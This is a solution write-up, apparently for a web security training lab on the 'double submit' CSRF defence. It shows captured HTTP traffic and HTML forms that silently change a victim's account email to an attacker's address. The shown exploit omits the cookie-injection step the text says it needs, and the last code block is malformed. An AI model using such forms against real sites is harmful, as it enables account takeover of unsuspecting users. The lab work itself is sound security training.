



# Lab: CSRF where token is duplicated in cookie
This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

# Solution:

First thing that i discover is that a cookie is set when the login form is present. This cookie contains a csrf token. The same token can be seen in the HTML of the form.  


```http
HTTP/2 200 OK
Set-Cookie: csrf=diIzhkFfSjEbYY2dL3dxDgWq2Uphblgs; Secure; HttpOnly; SameSite=None
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3343
[...]
                   <h1>Login</h1>
                    <section>
                        <form class=login-form method=POST action="/login">
                            <input required type="hidden" name="csrf" value="diIzhkFfSjEbYY2dL3dxDgWq2Uphblgs">
                            <label>Username</label>
                            <input required type=username name="username" autofocus>
                            <label>Password</label>
                            <input required type=password name="password">
                            <button class=button type=submit> Log in </button>
                        </form>
                    </section>
[...]
```


These values stay the same after a login. And even after changing the email. Let's send the POST request for changing the mail.  


By changing the cookie value and the token in the body we can change the email successfully with our own random token.  

```http
POST /my-account/change-email HTTP/2
Host: 0a26001e035d9a228010126f00140056.web-security-academy.net
Cookie: csrf=test123; session=enD7E21LyfkD1huVUN2XMuPlS6ZdBVg0
[...]
Referer: https://0a26001e035d9a228010126f00140056.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=new-test%40test.com&csrf=test123
```





So to attack our victim we need to set the cookie and the csrf token in the form to the same value. But the token could be anything.

Now we need a way to set the cookie in the victims browser. And as the previous lab we have a search function that sets a cookie with the last searched term. So we can  probably use the and edit the same exploit.  
```html
<html>
<body>
    <form class="login-form" name="change-email-form" action="https://0a960064042243f080832b8e0059007d.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="evilner@pwned.com">
        <input required type=hidden name=csrf value="NbSDcezTKEkhFRmNrqpL5GcDq2GHrATd">
        <button class='button' type='submit'> Update email </button>
    </form>
    
</html>
```

Becoming:  
<html>
<body>
    <form class="login-form" name="change-email-form" action="https://0a26001e035d9a228010126f00140056.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="evil-test@pwned.com">
        <input required type=hidden name=csrf value="test123">
        <button class='button' type='submit'> Update email </button>
    </form>
    
</html>
```


